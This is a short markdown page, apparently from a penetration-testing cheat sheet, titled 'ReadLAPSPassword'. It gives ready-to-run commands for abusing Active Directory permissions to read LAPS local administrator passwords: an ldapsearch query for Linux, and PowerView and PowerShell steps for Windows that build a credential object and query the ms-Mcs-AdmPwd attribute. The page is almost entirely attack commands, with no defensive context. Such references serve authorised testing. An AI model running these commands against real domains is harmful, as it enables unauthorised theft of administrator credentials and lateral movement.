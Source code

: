 ```yaml
---
title: "ReadLAPSPassword"
date: 2024-7-30
tags: ["ReadLAPSPassword", "active driectory", "ad", "Windows", "LAPS"]
---
```


### Abuse #1: Read LAPS Password

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
ldapsearch -h <TARGET> -b 'DC=<EXAMPLE>,DC=<COM>' -x -D <USER>@<TARGET> -w '<PASSWORD>' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1

<div>

```console
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 3. Read LAPS password

<div>

```console
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

</div>

{{< /tabcontent >}}

<br>